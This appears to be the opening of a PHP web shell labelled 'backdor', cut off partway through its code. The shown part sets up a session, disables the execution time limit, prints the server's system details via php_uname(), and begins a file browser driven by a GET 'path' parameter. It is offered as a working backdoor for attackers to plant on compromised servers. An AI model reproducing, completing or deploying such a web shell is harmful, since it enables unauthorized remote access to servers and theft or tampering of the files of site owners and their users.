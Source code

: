 # backdor

<?php
@session_start();
@set_time_limit(0);

echo '<!DOCTYPE HTML>
<HTML>
<HEAD>
<title></title>
<style>
* {
font-family: Courier;
font-weight: 700;
}
body{
color: #000;
font-size: 18px;
background-color: white;
}
#content tr:hover{
background-color: silver;
}
#content .first{
background-color: #ccc;
}
#content .first:hover{
background-color: silver;
}
table{
border: 3px #000 solid;
}
a{
color: #000;
text-decoration: none;
}
input,select,textarea{
border: 1px #000 solid;
}
input {
 font-size: 17px;
 padding: 5px;
}
select {
font-size: 19px
}
textarea {
font-size: 10px
}
td, tr { padding: 2px 5px; }
</style>
</HEAD>
<BODY>
<hr width="920" color="black"/>
<hr width="920" color="black"/>
<center><font size="3"><pre>'.php_uname().'</pre></font></center>
<hr width="920" color="black"/>
<table width="920" border="1px" cellpadding="7" cellspacing="0" align="center">
<tr><th style="text-align:left; padding: 8px">Path : ';
if(isset($_GET['path'])){
$path = $_GET['path'];
}else{
$path = getcwd();